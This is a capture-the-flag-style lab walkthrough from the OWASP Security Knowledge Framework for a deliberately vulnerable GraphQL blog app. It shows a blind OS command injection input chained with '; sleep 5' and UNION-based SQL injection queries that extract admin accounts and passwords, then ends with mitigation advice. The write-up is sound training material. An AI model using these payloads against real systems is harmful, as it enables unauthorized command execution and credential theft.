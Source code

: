 # KBID 285 - GraphQL injections

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-injections
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-injections
```

Or alternatively build yourself! 

```sh
docker build . -t graphql/inject && docker run -ti -p 5000:5000 graphql/inject
```

The docker should be up in no time and we should now be able to browse the application on `http://0.0.0.0:5000/`


{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)


## Reconnaissance

This lab shows that GraphQL is not a silver bullet to any of the injection vulnerabilities.

We will look at two of the most common ones:

* OS Command Injection
* Sql Injection

We still see the blog that we should be familiar by now. 

If you run your DirBuster against it or just manually try to guess few of the rountes you will notice the new `/admin` section of the web app.

```
http://0.0.0.0:5000/admin

```
There we have two functionalities:

 * Check SQL Server Status
 * Query User detiails

Both of them look suspicious, so play around and understand what they actually do.

Hint: you can also use what you have learned from the Introspection lab to understand the queries and mutations in the admin part ;)


## Exploitation

Your gut feeling is right and the *Check SQL Server Status* should be vulnerable to *OS Command Injection* and *Query User detiails* should be vulnerable to *SQL injection* attacks.

Let's get it on!

### OS Command Injection
The *Check SQL Server Status* form has one input field where a server and a port are expected.

Go about and try check if some of the well known SQL Server ports are open on the server. 

Probablly your first try was MySQL 3306 - 127.0.0.1:3306. Play around with few other ports and IPs and observe the *Status codes* we receive as results.

Now go ahead and try to execute some other system commands, append, pipe, ...

Apparently our input is being passed to a system command which gets executed and we get response code of it. By looking in the code we can see it is passed to a `os.system()` call.

This makes it a bit harder as we don't see the actual output of the command but we don't need that... enter ***Blind OS Command Injection***

How about we try to a valid command that time effective and we can observe that... kind of an oracle, a Time Oracle.

Let's try: `127.0.0.1:3306; sleep 5`

As you have observed, the applciation took additional extra 5 seconds to respond, meaning our `sleep` command got executed. w00t, w00t!

Now, it' up to you to come up with scenario how to further abuse this.

### SQL Injection
Staying on the same `/admin` we also see *Query User detiails* functionality which allowes an Administrator to get information about users by providing `username` values.

Go aronud find locate the GraphQL query that executes this transaction. 

Now try to fetch some information for valid or invalid users. How about trying some SQL Injection payloads? :)


```
Example:
' UNION SELECT uuid, username FROM users --")
```

By now we are aboslutly sure that this is an SQL Injection point and it is pretty that we are dealing with UNION style SQL Injection. 
Next up, let's try to find the other blog admins:
```
{getUser(username:"' UNION SELECT uuid, username, null, null FROM users WHERE isadmin = true --") {
  id
  username
}}
```

Lets try to get the password of some user:
```
{getUser(username:"' UNION SELECT uuid, username, password, null FROM users WHERE username = 'johndoe'  --") {
  id
  username
}}
```

We face few hurdles here:
  * The query only returns one row (the first row)
  * We cannot see the `password` value as our GraphQL `UserObject` model excludes the `password` column/field
  ```
  class UserObject(SQLAlchemyObjectType):
     class Meta:
         model = User
         exclude_fields = ('password') #this hides the password in the query for the Users
         filter_fields = {
              'username': ['exact', 'icontains', 'istartswith']
          }
         interfaces = (graphene.relay.Node, )
  ```


This means we need to get the password out from the UNION SELECT in another variable that is passed back.

The laziest approach, if our target is to get the password, is to return in all fields:
```
{getUser(username:"' UNION SELECT password, password, password, password FROM users WHERE username = 'johndoe'  --") {
  id
  username
  
}}
```

w00t w00t!

What else can you!?


## Solution

### OS Command Injection
By know you fully understand that GraphQL does not handle input validation or santization for you. It actually has nothing to do with it. So, fixing the code in this lab does not differ to any of your previous practices on fixing code for OS Command Line injection.

### SQL Injection
SQL Injections have been present and known as vulnerability for such a long time which means that the mitigations are known, documented and well explained. Mitigating against SQL Injections when it comes to GraphQL powered applications are the same as for any other technology.
In this particular project we use SQLAlchemy as ORM and graphane_sqlalchemy implemetation which is one common use case. However, as can be seen in our example mistakes can be made if we concatinate unsanitized, user provided string input to our SQLAlchemy queries.

The solution? 
 * Sanitize the input
 * Use parameterized queries
 * Use SQLAlchemy as described in documentation

## Additional resources
